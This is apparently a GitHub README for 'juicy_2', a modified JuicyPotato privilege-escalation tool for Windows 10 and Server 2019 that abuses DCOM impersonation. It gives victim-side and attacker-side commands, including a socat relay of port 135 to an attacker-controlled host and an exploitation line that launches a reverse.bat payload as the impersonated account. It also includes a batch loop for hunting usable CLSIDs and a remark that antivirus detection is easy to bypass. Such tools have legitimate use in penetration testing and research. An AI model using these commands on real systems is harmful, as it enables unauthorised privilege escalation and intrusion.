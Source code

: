 # juicy_2
JuicyPotato for Win10 > 1803 &amp; Win Server 2019<br>
Please read my blog post first: https://decoder.cloud/2020/05/30/the-impersonation-game/ <br>
<hr>
<b>Disclaimer:</b><br>
This is just a quick & dirty modification of our JuicyPotato in order to test valid CLSID's and to impersonate them (YOU NEED IMPERSONATION PRIVILEGES) for newer Windows 10 and Windows Server 2019 platforms.<br>
(I know, this version is catched by Defender and other AV's, but with some modifications in code it's easy to bypass)
<hr>
Mandatory requisite is to have the possibility to redirect traffic for port 135 on a forwarder machine under you control.<br>
Feel free to improve the code, I was too lazy for this kind of stuff. <br>
<hr>
<i><b>For testing CLSID:</i></b><br>
juicy_2 -z -x [ip] of socat listener  -l [fake oxid resolver port] -n [local RPC server port] -c [CLSID to test]<br>
Example:<br>
  on victim:<br>
  juicy_2 -z -x 192.168.1.1 -l 9995 -n 9998 -c {90F18417-F0F1-484E-9D3C-59DCEEE5DBD8}<br>
  on attacker (192.168.1.1): <br>
  socat -v  TCP-LISTEN:135,fork,reuseaddr TCP:[victim machine]:9995 
<br>
  <i><b>For exploitation:</i></b><br>
  on victim:<br>
  juicy_2 -x 192.168.1.1 -l 9995 -n 9998 -c {90F18417-F0F1-484E-9D3C-59DCEEE5DBD8} -t * -p c:\temp\reverse.bat<br>
  on attacker (192.168.1.1): <br>
  socat -v  TCP-LISTEN:135,fork,reuseaddr TCP:[victim machine]:9995<br>
<hr>  
<b><i>Hunting for juicy CLSID's with a stupid batch:</b><br></i>
@echo off<br>
FOR /F %%i IN (clsid.list) DO (<br>
   .\juicy_2 -z -x 192.168.1.1 -n 9998 -l 9995 -c %%i >> .\out.txt<br>
   timeout /t 2<br>
 )<br>
 
  

  
